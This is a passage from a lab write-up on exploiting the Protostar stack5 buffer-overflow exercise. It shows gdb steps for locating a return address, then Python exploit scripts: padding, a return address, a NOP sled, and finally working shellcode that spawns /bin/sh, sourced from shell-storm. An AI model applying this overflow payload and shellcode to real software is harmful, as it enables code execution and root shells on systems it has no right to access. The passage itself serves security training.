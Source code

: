 As you can see the content of `0xbffffcbc` is now "BBBB", so we can already handle the return address. The return address should be "0xbffffcbc + 4" which is equal to `0xbffffcc0`. If you want to be sure that address is already present in the stack simply execute the following command in the terminal that running your `gdb` instance:

```html
(gdb) x/60wx $eax
```

Now we are going to create an exploit to verify that we will be able to execute arbitrary code, for this we will use the `Interrupt 3` instruction in order to stop the execution of the program and create a breakpoint.

```html
cat >> /tmp/exploit.py << EOL
import struct

def m32(dir):
    return struct.pack("I",dir)

padding="A"*76
ret=m32(0xbffffcc0)
nops="\x90"*20 # NOPs
shellcode="\xCC"*4
print padding+ret+nops+shellcode
EOL

python /tmp/exploit.py > /tmp/file
cd /opt/protostar/bin/
./stack5 < /tmp/file
```

We see that it works, now we are going to try to execute a shell `/bin/sh` as root. We can generate the Shellcode using **msfvenom** or search for one that works in our situation on [Shell Storm](http://shell-storm.org/shellcode/) website. To make it easier for you, I already selected a Shellcode that you can use in this situation and which can be found [here](http://shell-storm.org/shellcode/files/shellcode-811.php). So considering all of this our final payload will be:

```html
import struct

def m32(dir):
    return struct.pack("I",dir)

padding="A"*76
ret=m32(0xbffffcc0)
nops="\x90"*20
shellcode = ""
shellcode += "\x31\xc0\x50\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89"
shellcode += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
shellcode += "\xcd\x80\x31\xc0\x40\xcd\x80"

print padding+ret+nops+shellcode
```
